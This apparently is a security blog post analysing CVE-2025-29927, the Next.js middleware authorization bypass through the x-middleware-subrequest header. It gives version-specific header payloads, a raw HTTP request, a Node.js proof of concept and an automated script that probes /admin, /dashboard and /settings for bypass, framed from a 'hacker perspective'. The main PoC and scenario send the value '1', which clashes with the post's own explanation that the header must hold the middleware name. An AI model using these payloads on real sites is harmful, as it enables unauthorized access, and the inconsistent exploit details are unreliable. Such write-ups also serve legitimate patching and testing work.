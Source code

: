 ```yaml
---
title: "CVE-2025-29927: Next.js Middleware Authorization Bypass"
layout: post
tags: [Next.js, CVE-2025-29927, middleware, authorization bypass, security, pentesting, red-team, web-security, Node.js, exploit, hacking, cybersecurity]
image: /assets/images/next.jpg

---
```


# CVE-2025-29927: Next.js Middleware Authorization Bypass – Deep Technical Analysis

CVE-2025-29927 is a critical security vulnerability in the Next.js framework. This issue arises from the improper handling of the `x-middleware-subrequest` header. This header plays a key role in Next.js middleware execution, and its misuse can bypass authorization checks.

---

## 1️⃣ Role of `x-middleware-subrequest` Header

Next.js uses the `x-middleware-subrequest` header to determine whether a request is an internal subrequest. This header is designed to prevent infinite middleware loops. However, incorrect handling allows external requests to bypass middleware checks.

---

## 2️⃣ Technical Mechanism of the Vulnerability

```javascript
const subreq = params.request.headers["x-middleware-subrequest"];
const subrequests = typeof subreq === "string" ? subreq.split(":") : [];

if (subrequests.includes(middlewareInfo.name)) {
  result = {
    response: NextResponse.next(),
    waitUntil: Promise.resolve(),
  };
  continue;
}
```

This code reads the `x-middleware-subrequest` header, splits it into an array, and if it contains `middlewareInfo.name`, the middleware is skipped, allowing external requests to bypass authorization.

---

## 3️⃣ Exploit Methods Across Next.js Versions

### 📌 Version 12.2 and Earlier

Middleware files are named `_middleware.ts` and reside in the `pages` folder. The `middlewareInfo.name` is the combination of directory and file name.

```javascript
x-middleware-subrequest: pages/_middleware
```

Setting this header externally can skip middleware checks.

### 📌 Version 12.2 and Later

Middleware files are `middleware.ts`. The `middlewareInfo.name` is just the file name.

```javascript
x-middleware-subrequest: middleware
```

Correctly setting this header still bypasses middleware.

### 📌 Version 13.2.0 and Later

Next.js enforces `MAX_RECURSION_DEPTH` to prevent infinite loops, but misuse of `x-middleware-subrequest` remains exploitable.

```javascript
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

---

## 4️⃣ Exploit Scenario

```http
GET /admin HTTP/1.1
Host: vulnerable-app.local
x-middleware-subrequest: 1
```

This request bypasses middleware and allows unauthorized access to routes like `/admin`.

### Node.js PoC

```javascript
import fetch from 'node-fetch';

async function exploit() {
    const res = await fetch('http://localhost:3000/admin', {
        headers: { 'x-middleware-subrequest': '1' }
    });
    const body = await res.text();

    if (body.includes('Admin Panel')) {
        console.log('[+] Bypass Successful!');
    } else {
        console.log('[-] Middleware blocking access.');
    }
}

exploit();
```

---

## 5️⃣ JWT / Cookie Combinations

Some projects combine middleware with cookie or JWT role checks:

```javascript
if (!req.cookies.auth_token && req.headers['x-middleware-subrequest'] !== '1') {
    return NextResponse.redirect('/login');
}
```

Adding the header allows access without token or JWT.

---

## 6️⃣ Header Manipulation Scenarios

| Scenario      | Header                                    | Result             |
| ------------- | ----------------------------------------- | ------------------ |
| Simple bypass | x-middleware-subrequest: 1                | Middleware skipped |
| JWT bypass    | x-middleware-subrequest: 1 + missing JWT  | Role check bypass  |
| Cookie bypass | x-middleware-subrequest: 1 + empty cookie | Auth bypass        |

---

## 7️⃣ Automated Test Script (Red-Team Style)

```javascript
import fetch from 'node-fetch';

const routes = ['/admin', '/dashboard', '/settings'];

async function testBypass() {
    for (const route of routes) {
        const res = await fetch(`http://localhost:3000${route}`, {
            headers: { 'x-middleware-subrequest': '1' }
        });
        console.log(`${route}: ${res.status}`);
    }
}

testBypass();
```

This script tests all protected routes automatically to quickly identify which can be bypassed.

---

## 8️⃣ Hacker Perspective

* Auth checks in middleware can be bypassed via header manipulation.
* JWT or cookie combinations can optimize bypass.
* Red-team testing involves code-based exploits and response analysis.
* Summary: `x-middleware-subrequest` = primary exploit entry point.

## 📺 Video Demonstration

Watch the full technical demonstration of CVE-2025-29927 and Next.js middleware bypass:

[![Watch on YouTube](https://img.youtube.com/vi/S3CVytIv098/0.jpg)](https://www.youtube.com/watch?v=S3CVytIv098)

